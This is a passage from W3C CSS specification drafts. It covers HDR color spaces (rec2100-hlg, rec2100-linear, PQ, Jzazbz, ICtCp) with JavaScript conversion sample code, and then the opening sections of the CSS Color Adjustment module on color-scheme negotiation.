const ninv = (2 ** 14) / 2610;
const minv = (2 ** 5) / 2523;
const c1 = 3424 / (2 ** 12);
const c2 = 2413 / (2 ** 7);
const c3 = 2392 / (2 ** 7);
var x = ((Math.max(((xPQ ** minv) - c1), 0) / (c2 - (c3 * (xPQ ** minv)))) ** ninv);
var Yw = 203;			// the luminance of diffuse white, cd/m²
var Ea = x * 10000; 	// luminance, [0, 10,000].
var Er = x * 10000 / Yw; 	// luminance relative to diffuse white, [0, 70 or so].
```

#### 8.2. **rec2100-hlg** {#css-color-hdr-1:valdef-color-rec2100-hlg}

The `rec2100-hlg` [Rec_BT.2100] color space accepts three numeric parameters, representing the red, green, and blue channels of the color, with each having a valid range of [0, 1] regardless of the actual bit depth (10 or 12 bits per component).

The Hybrid Log-Gamma (HLG) electro-optical transfer function is used [ARIB_STD-B67],[Rec_BT.2100]. HLG can be used with displays of different brightness in a wide range of viewing environments, with user control of the overall brightness level. A value of 0.75 represents "diffuse" or "media" white while an "18% reflectance grey" card has a value of 0.38. [Rec_BT.2390].

It has the following characteristics: (The display primaries are the same as [Rec.2020]):

|  | x | y |
| --- | --- | --- |
| Red chromaticity | 0.708 | 0.292 |
| Green chromaticity | 0.170 | 0.797 |
| Blue chromaticity | 0.131 | 0.046 |
| White chromaticity | D65 |  |
| Transfer function | Hybrid Log-Gamma |  |
| White luminance | depends on viewing conditions |  |
| Peak white luminance | 12 times reference white |  |
| Black luminance | depends on reference white, see text |  |
| Image state | scene-referred |  |
| Percentages | Allowed for R, G and B |  |
| Percent reference range | for R,G,B: 0% = 0.0, 100% = 1.0 |  |

For narrow-range HLG video (in any viewing environment), the black level should be adjusted using the PLUGE test signal and procedure specified in [Rec_BT.814] Annex 4.

For HLG values in CSS, which uses wide-range, the black corresponds to code point 0.

> **Issue:** add other examples

> **Example:** This color represents a comfortable "diffuse white" This color can be displayed for long periods, or used for subtitles, on any sized area of the screen. Content is typically mastered with a peak white of 1,000 to 4,000 cd/m², so diffuse white will be 203 to 581 cd/m².
>
> ```
>  color(rec2100-hlg 0.75 0.75 0.75);
> ```
>
> This color represents a mid grey, at 26 to 104 cd/m².
>
> ```
>  color(rec2100-hlg 0.38 0.38 0.38)
> ```

Linear-light RGB signals are converted to HLG encoded as follows [Rec_BT.2390]:

```javascript
var E;			// the red, green or blue component, [0, 1]
const a = 0.17883277;
const b = 0.28466892;   // 1 - (4 * a)
const c = 0.55991073;   // 0.5 - a * Math.log(4 *a)
// handle negative values
var sign = E < 0? -1 : 1;
var abs = Math.abs(E);
if (abs <= 1/12) {
  Edash = sign * Math.sqrt( 3 * abs);
}
else {
  Edash = a * Math.log(12 * E - b) + c;
}
```

Edash is the "gamma-corrected" (OETF-adjusted) signal.

The reverse conversion (HLG encoded to linear light) is as follows [Rec_BT.2390]::

```javascript
var Edash;			// the red, green or blue encoded component, [0, 1]
const a = 0.17883277;
const b = 0.28466892;   // 1 - (4 * a)
const c = 0.55991073;   // 0.5 - a * Math.log(4 *a)
if (Edash <= 0.5) {
  E = (Edash ** 2) / 3;
}
else {
  E = (Math.exp((Edash - c) / a) + b) / 12;
}
```

> **Issue:** add black level lift Β as defined on same page?

#### 8.3. **rec2100-linear** {#css-color-hdr-1:valdef-color-rec2100-linear}

The `rec2100-linear` [Rec_BT.2100] color space accepts three numeric parameters, representing the red, green, and blue channels of the color, with each having a nominal range of [0, 1] regardless of the actual bit depth (10 or 12 bits per component).

The color with red, green and blue all at 1.0 represents HDR Reference White with a luminance of 203 cd/m².

```css
color(rec2100-linear 1 1 1)
```

> **Example:** For example, the following color
>
> ```css
> color(rec2100-linear 9.852 9.852 9.852)
> ```
>
> represents a white highlight with a luminance of 9.852 × 203 = 1,999 cd/m².

> **Example:** This color represents a comfortable "diffuse white" This color can be displayed for long periods, or used for subtitles, on any sized area of the screen. It is the same color as sRGB `white`. Diffuse white is 203 cd/m² [Rec_BT.2100].
>
> ```
>  color(rec2100-linear 1 1 1)
> ```

A linear-light electro-optical transfer function is used.

It has the following characteristics: (The display primaries are the same as [Rec.2020]):

|  | x | y |
| --- | --- | --- |
| Red chromaticity | 0.708 | 0.292 |
| Green chromaticity | 0.170 | 0.797 |
| Blue chromaticity | 0.131 | 0.046 |
| White chromaticity | D65 |  |
| Transfer function | Linear |  |
| White luminance | 203 cd/m² |  |
| Peak white luminance | 10,000 cd/m² |  |
| Black luminance | 0.001 cd/m² |  |
| Image state | display-referred |  |
| Percentages | Allowed for R, G and B |  |
| Percent reference range | for R,G,B: 0% = 0.0, 100% = 1.0 |  |

### 9. Compositing SDR and HDR content {#css-color-hdr-1:Compositing-SDR-HDR}

Compositing should take place in CIE XYZ, as it is a linear-light space without gamut limitations. Implementations may chose to composite in a linear-light RGB space instead, which will give the same result provided out-of-gamut values (negative, or greater than 100%) are correctly handled and not clipped or gamut mapped until the final transfer to the device color space.

HDR using the HLG transfer function, must map SDR HDR Reference White to the same luminance as is used to display the 75% HLG value. [SMPTE-ST-2084]

For further details, see also tables 3 and 4 in ITU Rpt_BT.2408-0 [Rpt_BT.2408-9]

HDR using the PQ transfer function, should map SDR HDR Reference White to 203 cd/m², the same luminance as is used to display the 58% PQ value. [SMPTE-ST-2084].

However, implementations may chose to incorporate a color re-rendering step to account for non-reference viewing conditions.

### 10.  Serializing `<color>` Values {#css-color-hdr-1:serializing-color-values}

#### 10.1.  Serializing values of the `color()` function {#css-color-hdr-1:serializing-color-function-values}

This section extends [CSS Color 4 § 16.5 Serializing values of the color() function](#css-color-4:serializing-color-function-values)

The serialized form of `color()` values is derived from the computed value and uses the `color()` form, with [ASCII lowercase](https://infra.spec.whatwg.org/#ascii-lowercase) letters for the function name and the color space name.

The component values are serialized in base 10, as `<number>`. A single ASCII space character " " must be used as the separator between the component values, and also between the color space name and the first color component.

For the predefined HDR color spaces, the *minimum* precision for round-tripping is as follows:

| HDR color space | Minimum bits |
| --- | --- |
| `rec2100-pq`, `rec2100-hlg` | 10 |
| `rec2100-linear`, `jzazbz`, `jzczhz`, `ictcp` | 16 |

(16bit, half-float, or float *per component* is recommended for internal storage). Values must be [rounded towards +∞](#css-values-4:combine-integers), not truncated.

### 11.  Sample code for Color Conversions {#css-color-hdr-1:color-conversion-code}

*This section is not normative.*

For clarity, [a library](https://drafts.csswg.org/css-color-4/multiply-matrices.js) is used for matrix multiplication. (This is more readable than inlining all the multiplies and adds). The matrices are in [column-major order](https://www.scratchapixel.com/lessons/mathematics-physics-for-computer-graphics/geometry/row-major-vs-column-major-vector).

This code also assumes all of the conversion code from [CSS Color 4 §  19. Sample code for Color Conversions](#css-color-4:color-conversion-code) is available.

The LMS used in `Jzazbz` are not the same as the ones used in `ICtCp`, take care to use the right ones!

#### 11.1.  Sample code for `rec2100-linear` {#css-color-hdr-1:rec2100-linear_code}

The BT.2020 and BT.2100 color spaces use the same RGB primaries and white point, and both place HDR Reference White at a component value of 1.0.

```javascript
// These functions use the color conversion functions from CSS Color 4

function XYZ_to_lin_2100(XYZ) {
    // convert an array of D65 XYZ to linear-light BT.2100 RGB
    // such that [0,0,0] is black and [1,1,1] is media white.
    // component values greater than 1 indicate HDR colors

    return  XYZ_to_lin_2020(XYZ);
}

function lin_2100_to_XYZ(RGB) {
    // convert an array of linear-light BT.2100 RGB values
    // to D65 XYZ

    return lin_2020_to_XYZ(RGB);
}
```

#### 11.2.  Sample code for `rec2100-pq` {#css-color-hdr-1:rec2100-pq_code}

```javascript
function XYZ_to_pq_2100(XYZ) {
    // convert an array of D65 XYZ to PQ-encoded BT.2100 RGB
    // such that [0,0,0] is black and [1,1,1] is 10,000 cd/m^2 white;
    // media white is at [0.5807,0.5807,0.5807] (to four significant figures).

    let linRGB = XYZ_to_lin_2100(XYZ);
    return pq_encode(linRGB);
}

function pq_2100_to_XYZ(RGB) {
    // convert an array of PQ-encoded BT.2100 RGB values
    // to D65 XYZ

    let linRGB = pq_decode(RGB);
    return lin_2100_to_XYZ(linRGB);
}

function pq_encode(RGB) {

    const Yw = 203;    // absolute luminance of media white, cd/m²
    const n = 2610 / (2 ** 14);
    const m = 2523 / (2 ** 5);
    const c1 = 3424 / (2 ** 12);
    const c2 = 2413 / (2 ** 7);
    const c3 = 2392 / (2 ** 7);

    // given PQ encoded component in range [0, 1]
    // return media-white relative linear-light
    return RGB.map(function (val) {
        let x = Math.max(val * Yw / 10000, 0);     // absolute luminance of peak white is 10,000 cd/m².
        let num = (c1 + (c2 * (x ** n)));
        let denom = (1 + (c3 * (x ** n)));

        return ((num / denom)  ** m);
    });
}

function pq_decode(RGB) {

    const Yw = 203;    // absolute luminance of media white, cd/m²
    const ninv = (2 ** 14) / 2610;
    const minv = (2 ** 5) / 2523;
    const c1 = 3424 / (2 ** 12);
    const c2 = 2413 / (2 ** 7);
    const c3 = 2392 / (2 ** 7);

    // given PQ encoded component in range [0, 1]
    // return media-white relative linear-light
    return RGB.map(function (val) {
        let x = ((Math.max(((val ** minv) - c1), 0) / (c2 - (c3 * (val ** minv)))) ** ninv);
        return (x * 10000 / Yw);     // luminance relative to diffuse white, [0, 70 or so].
    });
}
```

#### 11.3.  Sample code for `rec2100-hlg` {#css-color-hdr-1:rec2100-hlg_code}

```javascript
function XYZ_to_hlg_2100(XYZ) {
    // convert an array of D65 XYZ to HLG-encoded BT.2100 RGB
    // such that [0,0,0] is black and [0.75,0.75,0.75] is media white

    let linRGB = XYZ_to_lin_2100(XYZ);
    return hlg_encode(linRGB);
}

function hlg_2100_to_XYZ(RGB) {
    // convert an array of PQ-encoded BT.2100 RGB values
    // to D65 XYZ

    let linRGB = hlg_decode(RGB);
    return lin_2100_to_XYZ(linRGB);
}

function hlg_encode(RGB) {

    const a = 0.17883277;
    const b = 0.28466892; // 1 - (4 * a)
    const c = 0.55991073; // 0.5 - a * Math.log(4 *a)
    const scale = 3.7743;    // Place 18% grey at HLG 0.38, so media white at 0.75

    return RGB.map(function (val) {
        // first scale to put linear-light media white at 1/3
        val /= scale;
        // now the HLG OETF
        // ITU-R BT.2390-10 p.23
        // 6.1 The hybrid log-gamma opto-electronic transfer function (OETF)
        if (val <= 1 / 12) {
            return spow(3 * val, 0.5);
        }
        return a * Math.log(12 * val - b) + c;
    });
}

function hlg_decode(RGB) {

    const a = 0.17883277;
    const b = 0.28466892; // 1 - (4 * a)
    const c = 0.55991073; // 0.5 - a * Math.log(4 *a)
    const scale = 3.7743;    // Place 18% grey at HLG 0.38, so media white at 0.75

    return RGB.map(function (val) {
        // first the HLG EOTF
        // ITU-R BT.2390-10 p.30 section
        // 6.3 The hybrid log-gamma electro-optical transfer function (EOTF)
        // Then scale by 3 so media white is 1.0
        if (val <= 0.5) {
            return (val ** 2) / 3 * scale;
        }
        return ((Math.exp((val - c) / a) + b) / 12) * scale;
    });
}

function spow (base, exp) {
    let sign = base < 0? -1 : 1;
    return sign * (Math.abs(base) ** exp);
}
```

#### 11.4.  Sample code for `jzazbz` {#css-color-hdr-1:jzazbz_code}

This uses the same signed power (spow) function defined above.

```javascript
function XYZ_to_Jzazbz (XYZ) {
    // convert an array of D65 XYZ toJzAzBz
    // such that [0,0,0] is black and
    // media white is [0.2220, -0.00016, -0.0001]

    const Yw = 203; // absolute luminance of media white
    const M = [
        [  0.41478972, 0.579999,  0.0146480 ],
        [ -0.2015100,  1.120649,  0.0531008 ],
        [ -0.0166008,  0.264800,  0.6684799 ],
    ];
    const b = 1.15;
    const g = 0.66;

    // First make XYZ absolute, not relative to media white
    // Maximum luminance in PQ is 10,000 cd/m²
    // BT.2048 says media white Y=203  cd/m²
    let [Xa, Ya, Za] = XYZ.map(v => v * Yw);

    // then modify X and Y, to minimize blue curvature
    let Xm = b * Xa - (b - 1) * Za;
    let Ym = g * Ya - (g - 1) * Xa;

    // now move to LMS cone domain
    let LMS = multiplyMatrices(M, [Xm, Ym, Za]);
    return LMStoJzazbz(LMS);
}

function LMStoJzazbz(LMS) {

    const M = [
        [  0.5,       0.5,       0        ],
        [  3.524000, -4.066708,  0.542708 ],
        [  0.199076,  1.096799, -1.295875 ],
    ];
    const c1 = 3424 / 2 ** 12;
    const c2 = 2413 / 2 ** 7;
    const c3 = 2392 / 2 ** 7;
    const n = 2610 / 2 ** 14;
    const p = (1.7 * 2523) / 2 ** 5;    // compared to usual PQ, 1.7 scale
    const d = -0.56;
    const d0 = 1.6295499532821566e-11;  // tiny shift to move black back to 0

    // PQ-encode LMS
    let PQLMS = (
        LMS.map(function (val) {
            let num = c1 + c2 * spow((val / 10000), n);
            let denom = 1 + c3 * spow((val / 10000), n);

            return spow((num / denom), p);
        })
    );

    // calculate Iz az bz
    let [Iz, az, bz] = multiplyMatrices(M, PQLMS);
    // now Jz from Iz
    let Jz = ((1 + d) * Iz) / (1 + d * Iz) - d0;
    return [Jz, az, bz];
}

function Jzazbz_to_XYZ (Jzazbz) {
    // convert an array of JzAzBz to D65 XYZ
    // such that [0,0,0] is black and
    // media white is [0.2220, -0.00016, -0.0001]

    const b = 1.15;
    const g = 0.66;
    const M = [
        [  1.9242264357876067,  -1.0047923125953657,  0.037651404030618   ],
        [  0.35031676209499907,  0.7264811939316552, -0.06538442294808501 ],
        [ -0.09098281098284752, -0.3127282905230739,  1.5227665613052603  ],
    ];

    let LMS = Jzazbz_to_LMS (Jzazbz);
    // modified absolute XYZ
	let [Xm, Ym, Za] = multiplyMatrices(M, LMS);

    // un-modify X and Y to get D65 XYZ, relative to media white
    let Xa = (Xm + (b - 1) * Za) / b;
    let Ya = (Ym + (g - 1) * Xa) / g;
    return [Xa, Ya, Za];
}

function Jzazbz_to_LMS (Jzazbz) {

    const d = -0.56;
    const d0 = 1.6295499532821566e-11;
    const c1 = 3424 / 2 ** 12;
    const c2 = 2413 / 2 ** 7;
    const c3 = 2392 / 2 ** 7;
    const ninv = 2 ** 14 / 2610;
	const pinv = 2 ** 5 / (1.7 * 2523);
    const M = [
        [ 1,  0.13860504327153927,   0.05804731615611883  ],
        [ 1, -0.1386050432715393,   -0.058047316156118904 ],
        [ 1, -0.09601924202631895,  -0.81189189605603900  ],
    ];

    let [Jz, az, bz] = Jzazbz;
	let Iz = (Jz + d0) / (1 + d - d * (Jz + d0));

    // bring into LMS cone domain
	let PQLMS = multiplyMatrices(M, [Iz, az, bz]);

    // convert from PQ-coded to linear-light LMS
    let LMS = (
        PQLMS.map(function (val) {
            let num = c1 - spow(val, pinv);
            let denom = c3 * spow(val, pinv) - c2;
            let x = 10000 * spow(num / denom, ninv);

            return x; // luminance relative to diffuse white, [0, 70 or so].
        })
    );
    return LMS;
}
```

#### 11.5.  Sample code for `ICtCp` {#css-color-hdr-1:ictcp_code}

Rather than first requiring conversion to `rec2100-linear`, which is how the conversion is defined in [Rec_BT.2100], this sample code proceeds directly from absolute CIE XYZ for compatibility with the other color conversion code.

The 4% crosstalk matrix, and the hue rotation, are also built into the XYZ to LMS step, rather than being applied as three separate steps.

The end result is identical, this just takes fewer steps.

```javascript
function XYZ_to_ICtCp (XYZ) {
    // convert an array of D65 XYZ to ICtCp

    // The matrix below includes the 4% crosstalk components
    // and is from the procedure in the Dolby "What is ICtCp" paper"
    const M = [
        [  0.3592832590121217,  0.6976051147779502, -0.0358915932320290 ],
        [ -0.1920808463704993,  1.1004767970374321,  0.0753748658519118 ],
        [  0.0070797844607479,  0.0748396662186362,  0.8433265453898765 ],
    ];

    let LMS = multiplyMatrices(M, XYZ.map(v => v * Yw));
    return LMStoICtCp(LMS);
}

function LMStoICtCp (LMS) {

    const c1 = 3424 / 4096;
    const c2 = 2413 / 128;
    const c3 = 2392 / 128;
    const m1 = 2610 / 16384;
    const m2 = 2523 / 32;

    // This matrix includes the Ebner LMS coefficients,
    // the rotation, and the scaling to [-0.5,0.5] range
    // rational terms are from Fröhlich p.97
    // and ITU-R BT.2124-0 pp.2-3
    const M = [
        [  2048 / 4096,   2048 / 4096,       0      ],
        [  6610 / 4096, -13613 / 4096,  7003 / 4096 ],
        [ 17933 / 4096, -17390 / 4096,  -543 / 4096 ],
    ];

    // apply the PQ EOTF
    // values scaled so [0, 10,000] maps to [0, 1]
    // we can't ever be dividing by zero because of the "1 +" in the denominator
    let PQLMS = LMS.map (function (val) {
        let num = c1 + (c2 * ((val / 10000) ** m1));
        let denom = 1 + (c3 * ((val / 10000) ** m1));

        return (num / denom)  ** m2;
    });

    // LMS to IPT, with rotation for Y'C'bC'r compatibility
    return multiplyMatrices(M, PQLMS);
}

function ICtCp_to_XYZ (ICtCp) {
    // convert ICtCp to an array of absolute, D65 XYZ

    const M = [
        [  2.0701522183894223, -1.3263473389671563,  0.2066510476294053 ],
        [  0.3647385209748072,  0.6805660249472273, -0.0453045459220347 ],
        [ -0.0497472075358123, -0.0492609666966131,  1.1880659249923042 ],
    ];

    let LMS = ICtCptoLMS(ICtCp);
    return multiplyMatrices(M, LMS);
}

function ICtCptoLMS (ICtCp) {

    const c1 = 3424 / 4096;
    const c2 = 2413 / 128;
    const c3 = 2392 / 128;
    const im1 = 16384 / 2610;
    const im2 = 32 / 2523;

    const M = [
        [ 0.9999999999999998,  0.0086090370379328,  0.1110296250030260 ],
        [ 0.9999999999999998, -0.0086090370379328, -0.1110296250030259 ],
        [ 0.9999999999999998,  0.5600313357106791, -0.3206271749873188 ],
    ];

    let PQLMS = multiplyMatrices(M, ICtCp);

    // Undo PQ encoding, From BT.2124-0 Annex 2 Conversion 3
    let LMS = PQLMS.map (function (val) {
        let num  = Math.max((val ** im2) - c1, 0);
        let denom = (c2 - (c3 * (val ** im2)));
        return 10000 * ((num / denom) ** im1);
    });

    return LMS;
}
```

#### 11.6.  Sample code for `hdr-color()` {#css-color-hdr-1:hdr-color-code}

```javascript
function hdrColor(col1, H1, col2, H2, H) {

    // col1, col2 are arrays representing two colors, in Absolute XYZ
    // H1 and H2 are the headroom for each color (in stops, ie log scale, 0 = SDR)
    // H is available headroom

    // first check the headrooms are distinct
    if (H1 == H2) return 0;

    let w1 = clamp((H - H2) / (H1 - H2), 0, 1);
    let w2 = clamp((H - H1) / (H2 - H1), 0, 1);
    let eps = 0.001;
    let cxyz = Array(3);
    for (let i=0; i<3; i++) {
        cxyz[i] = Math.pow(col1[i] + eps, w1) * Math.pow(col2[i] + eps, w2) - eps;
    }
    return cxyz;
}

const clamp = (n, min, max) =>
  Math.min(Math.max(n, min), max)
```

### 12.  Sample code for ΔEITP Color Differences {#css-color-hdr-1:deltaE}

*This section is not normative.*

The ΔEITP [Rec_BT.2124] color difference metric may be used to measure the perceptual color difference between two display-referred colors in an HDR or mixed SDR/HDR context, for example in display calibration or gamut and tone mapping.

It is a Euclideam distance in `ICtCp` color space, scaled such that a ΔEITP of 1.0 represents one just-noticeable difference.

```javascript
// Calculate deltaE ITP
// scaled root sum of squares
// ITU-R BT.2124-0 Annex 1
/**
 * @param {number[]} reference - Array of ICtCp: I as 0..1, Ct and Cp as -1..1
 * @param {number[]} sample -    Array of ICtCp: I as 0..1, Ct and Cp as -1..1
 * @return {number} How different a color sample is from reference
 */
function deltaEITP (reference, sample) {
    let [I1, Ct1, Cp1] = reference;
	let [I2, Ct2, Cp2] = sample;
	let ΔI = I1 - I2;
	let ΔT = 0.5 * (Ct1 - Ct2);
	let ΔP = Cp1 - Cp2;
	return 720 * Math.sqrt(ΔI ** 2 + ΔT ** 2 + ΔP ** 2);
}
```

### Accessibility Considerations {#css-color-hdr-1:a11y}

Some individuals may have a sensitivity to very bright colors, so user agents should provide a mechanism to limit the maximum luminance at user option. The toe and knee procedure in section 5.4.1 *Mapping to display with limited brightness range* of [Rec_BT.2390] is suggested as suitable.

The `dynamic-range-limit` property could also be set to `standard` or `constrained` in a user stylesheet.

---

## CSS Color Adjustment Module Level 1 {#css-color-adjust-1}

- **Shortname:** `css-color-adjust-1`
- **Editor's Draft:** [https://drafts.csswg.org/css-color-adjust-1/](https://drafts.csswg.org/css-color-adjust-1/)
- **Published TR:** [https://www.w3.org/TR/css-color-adjust-1/](https://www.w3.org/TR/css-color-adjust-1/)
- **W3C Status:** CR (testing)
- **Last Edited:** 2026-10-30

### 1. Introduction {#css-color-adjust-1:intro}

This specification introduces three new features related to controlling how/when colors are auto-adjusted by the user agent:

- Color schemes and the `color-scheme` property, which controls whether or not browser-provided parts of the page’s UI respect the user’s chosen color scheme.
- Forced colors mode and the `forced-color-adjust` property, which controls whether or not forced colors mode is allowed to apply to a given element.
- The `print-color-adjust` property, which controls whether the browser is allowed to automatically adjust colors to the user’s assumed performance preferences, such as suppressing background colors when printing to save ink.

Together with the `prefers-color-scheme`, `prefers-contrast`, and `forced-colors` media queries [MEDIAQUERIES-5], this module allows color scheme negotiation between the author and the user.

#### 1.1. Value Definitions {#css-color-adjust-1:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 2. Preferred Color Schemes {#css-color-adjust-1:preferred}

Operating systems and user agents often give users the ability to choose their **preferred color scheme** for user interface elements. This **color scheme** is typically reflected in the user agent’s rendering of its navigation interface as well as in-page interface elements such as form controls and scrollbars.

A UA can also allow the user to indicate a preference for the color scheme of the pages they view, requesting that the author adapt the page to those color preferences. (It is not required to express such a preference; users can have preferences for operating system interface colors that they do not want imposed on pages.)

The most common color scheme preferences are:

- A **light color scheme** ("day mode") consists of light background colors and dark foreground/text colors.
- A **dark color scheme** ("night mode") consists of the opposite, with dark background colors and light foreground/text colors.

> **Note:** Light and dark color schemes are not specific color palettes, but a range of possible palettes. For example, a stark black-on-white scheme and a sepia dark-on-tan scheme would both be considered light color schemes. To guarantee specific colors, authors must specify those colors themselves. Note also that, consequently, pairing default or `<system-color>` colors with author-specified colors cannot guarantee any particular contrast level; to ensure legibility, generally either both foreground and background should be paired system colors or both be manually specified colors. [WCAG22]

The user’s preferred color scheme is then combined with the page’s supported color schemes to produce a **page color scheme**. The page color scheme also records whether it’s **default** or not. The page color scheme is queryable with the `prefers-color-scheme` media query. [MEDIAQUERIES-5]

Individual elements have an **element color scheme**, which by default matches the page color scheme, but can be overriden using the `color-scheme` property. The element color scheme affects things such as the value of system colors on the element, the value of the `light-dark()` function, and how user interface elements (like scrollbars) render. (See [§ 2.4 Effects of the Used Color Scheme](#css-color-adjust-1:color-scheme-effect).)

User agents *may* support additional color schemes, however CSS does not support negotiation of additional color schemes: user agents should pursue standardization of these schemes, so that `prefers-color-scheme` and `color-scheme` can reflect the additional values.

> **Note:** Because many pages were authored before color scheme support existed, and thus pages were authored with the assumption of the default (light) color scheme, user agents cannot automatically adapt the colors used in elements under their control, as it might cause unreadable color contrast with the surrounding page. Pages *have to* opt into color scheme support by setting the page color scheme, or manually setting the `color-scheme` property on individual elements.

#### 2.1. Opting Into a Preferred Color Scheme {#css-color-adjust-1:color-scheme-page}

The page color scheme represents the color scheme that will be used for the page overall (queryable with the `prefers-color-scheme` media feature) and for all elements that don’t specifically override the page color scheme with the `color-scheme` property. See [§ 2.4 Effects of the Used Color Scheme](#css-color-adjust-1:color-scheme-effect) for a full description of what the color scheme effects.

> **Note:** In HTML, the `color-scheme <meta>` sets the page color scheme.

Authors *should* generally set the page color scheme, rather than using the `color-scheme` property, so that the `prefers-color-scheme` media feature is consistent with the elements on the page.

The page color scheme is determined by finding the used color scheme, given the preferred color scheme and the **page’s supported color schemes** (a color scheme support).

In embedded documents (such as an `iframe` or an SVG `img`), the embedding element’s element color scheme is used as the embedded document’s preferred color scheme (treated as a normal color scheme preference), rather than the user’s preference. This allows embedded documents to match the negotiated color scheme for the page or an element, similar to other elements in the parent document.

> **Example:** A page that responds to user preferences for light or dark display by using the `prefers-color-scheme` media feature to alter the colors it uses can easily opt the browser-controlled UI (scrollbars, inputs, etc) to match with a simple global declaration:
>
> ```
> <meta name=color-scheme content="light dark">
> ```
>
> (Or, in languages that don’t have a way to set the page color scheme directly, a `:root { color-scheme: light dark;}` rule.)
>
> If a page limits itself to using *only* the `<system-color>`s, the `color-scheme` declaration will support the user’s preferred color scheme even without the author needing to use `@media` at all.

> **Example:** If a page cannot reasonably accommodate all color schemes, such as for branding or theatrical reasons, `color-scheme` or `color-scheme` can still indicate which color schemes the page *can* support, causing the UI to match.
>
> If the page’s color scheme is primarily light, the following will indicate that explicitly:
>
> ```
> <meta name=color-scheme content="light">
> ```
>
> While if the page is primarily dark, indicating that explicitly will make the page look more coherent as well:
>
> ```
> <meta name=color-scheme content="dark">
> ```
>
> However, it is better to support both color schemes, of course.

#### 2.2. Overriding the Page Color Scheme: the `color-scheme` property {#css-color-adjust-1:color-scheme-prop}

| Field | Value |
| --- | --- |
| Name: | **color-scheme** |
| [Value:](#css-values-4:value-defs) | normal \| [ light \| dark \| `<custom-ident>` ]+ && only? |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | all elements and text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | the keyword `normal`, or a color scheme support |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

While the page color scheme should generally be used to control what color scheme a page uses, occasionally there is need to override that color scheme on a particular subtree. The `color-scheme` property allows this, manually setting the element color scheme for an element and its descendants. Values are defined as follows:

****normal****

: The element color scheme is the same as the page color scheme. (This includes noting whether the color scheme was defaulted.)

****light** **dark****

: Indicates that the element supports a light and/or dark color scheme, as appropriate. The element’s color scheme support will include the keywords, in the order they’re specified.

****only****

: Forbids the user agent from overriding the color scheme for the element. The element’s color scheme support will have a flag indicating sole support.

****`<custom-ident>`****

: `<custom-ident>` values are meaningless, and exist only for future compatibility, so that future added color schemes do not invalidate the `color-scheme` declaration in legacy user agents. User agents *must not* interpret any <custom-ident> values as having a meaning; any additional recognized color schemes must be explicitly added to this property’s grammar.

  > **Note:** To avoid confusion, authoring tutorials and references should omit `<custom-ident>` from their materials.

  The `normal`, `light`, `dark`, and `only` keywords are not valid `<custom-ident>`s in this property.

If an element has any value other than `color-scheme: normal`, its element color scheme is determined by finding the used color scheme, given the user’s preferred color scheme and the element’s color scheme support specified by this property.

> **Example:** A page might be generally capable of handling multiple color schemes, while still having a sub-section that needs to be rendered in a particular color scheme.
>
> For example, a style guide might give several UI examples that are using light or dark colors, showing off the light or dark theme specifically. This can be indicated as:
>
> ```
> <meta name=color-scheme content="light dark">
> <style>
> .light-theme-example {
>   color-scheme: light;
> }
>
> .dark-theme-example {
>   color-scheme: dark;
> }
> </style>
> ```
>
> Only the subsections rooted at `.light-theme-example` or `.dark-theme-example` will be opted into the light or dark themes specifically; the rest of the page will respect the user’s preference.

> **Note:** Repeating a keyword, such as `color-scheme: light light`, is valid but has no additional effect beyond what the first instance of the keyword provides.

#### 2.3. Resolving Color Schemes {#css-color-adjust-1:color-scheme-resolution}

While it’s important for a page to respect the user’s preferred color scheme, it’s also important to only use a color scheme the page author *expects*, or else it is very easy to render a page unreadable by causing the foreground and background elements to accidentally have minimal (or zero!) contrast.

For example, an author expecting the default light color scheme might set the page background to a light cream while leaving the text color unset, expecting it to use the default black text color. If the page unexpectedly opted into a user’s preferred dark color scheme, however, and adjusted the default text color to white, that would make the text virtually unreadable.

To balance these competing concerns, a user’s color scheme preference is compared against a page’s color scheme support to produce a used color scheme.

A **color scheme preference** is either no preference, a color scheme preference (light or dark), or an **overriding** color scheme preference.

A **color scheme support** is null, or an ordered list of one or more supported color schemes, along with a flag indicating whether or not it *solely* supports the indicated color schemes.

To determine the **used color scheme**, given a color scheme support *support* and a color scheme preference *preference*:

1. If *support* is null, or none of the color schemes in *support* are supported by the UA, return the UA default color scheme, and annotate that this color scheme was defaulted.
2. If *preference* is no preference, return the first supported color scheme in *support*.
3. If *preference*’s color scheme is in *support* and supported by the UA, return that color scheme.
4. If *support* is flagged as sole support, return the first supported color scheme in *support*.
5. If *preference* is an overriding preference, return *preference*’s color scheme. If this color scheme is used as an element color scheme, also override the color scheme on the element to this color scheme.
6. Otherwise, return the first supported color scheme in *support*.

> **Note:** The basic logic here is that, if the page hasn’t opted into color schemes at all (null *supports*), we go with the safe UA default that it was probably implicitly designed for. If there *is* a usable *supports*, and it matches *preference*, we use the preference. Otherwise *preference* and *supports* disagree, and we go back and forth down the preference hierarchy to see who wins: sole support in *support* wins, then overriding preference in *preference* wins (and we adjust the element’s colors to make sure this actually *works*), then *support* finally wins.

> **Note:** User agents are **not required** to support any particular color scheme, so only using a single keyword, such as `color-scheme: dark`, to indicate a required color scheme is still not guaranteed to have any effect on the rendering of the element.

> **Note:** User agents might not actually support preference levels in a color scheme preferences. At the time of writing, UAs generally only support an ordinary light or dark preference, which considerably simplifies the above logic.

#### 2.4. Effects of the Used Color Scheme {#css-color-adjust-1:color-scheme-effect}

For all elements, the user agent must match the following to the element color scheme:

- the default colors of scrollbars and other interaction UI
- the default colors of form controls and other "specially-rendered" elements
- the default colors of other browser-provided UI, such as "spellcheck" underlines
- the value of system colors
- the value of the `light-dark()` function

On the root element, the element color scheme additionally must affect the surface color of the canvas, and the viewport’s scrollbars.

In order to preserve expected color contrasts, in the case of embedded documents typically rendered over a transparent canvas (such as provided via an HTML `iframe` element), if the element color scheme of the element and the element color scheme of the embedded document’s root element do not match, then the UA must use an opaque canvas of the `Canvas` color appropriate to the embedded document’s root element’s element color scheme instead of a transparent canvas. This rule does not apply to documents embedded via elements intended for graphics (such as `img` elements embedding an SVG document); their canvases remain the default transparent regardless.

